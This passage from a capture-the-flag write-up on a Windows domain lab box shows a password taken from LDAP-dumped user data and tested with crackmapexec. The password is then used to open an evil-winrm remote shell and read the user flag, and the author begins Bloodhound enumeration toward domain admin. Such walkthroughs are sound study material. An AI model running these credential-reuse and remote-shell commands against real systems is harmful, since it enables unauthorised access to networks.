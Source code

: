 It’s important to note that the `info` shows up in the `.json` file, but not the `.html`:

```

oxdf@hacky$ grep Ironside *
domain_users.json:            "Ironside47pleasure40Watchful"

```

### Evil-WinRM

Looking at the Bloodhound data, support shows up there as a member of Remote Management Users:

![image-20220527142918001](https://0xdfimages.gitlab.io/img/image-20220527142918001.png)

`crackmapexec` confirms:

```

oxdf@hacky$ crackmapexec winrm support.htb -u support -p 'Ironside47pleasure40Watchful'
SMB         dc.support.htb  5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        dc.support.htb  5985   DC               [*] http://dc.support.htb:5985/wsman
WINRM       dc.support.htb  5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)

```

I’ll connect with `evil-winrm` and get a shell:

```

oxdf@hacky$ evil-winrm -i support.h -u support -p 'Ironside47pleasure40Watchful'

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> 

```

And `user.txt`:

```
*Evil-WinRM* PS C:\Users\support\desktop> type user.txt
93ca1fe7************************

```

## Shell as domainadmin

### Enumeration

Looking at the Bloodhound data again, the support user is a member of the Shared Support Accounts group, which has `GenericAll` on the computer object, DC.SUPPORT.HTB:
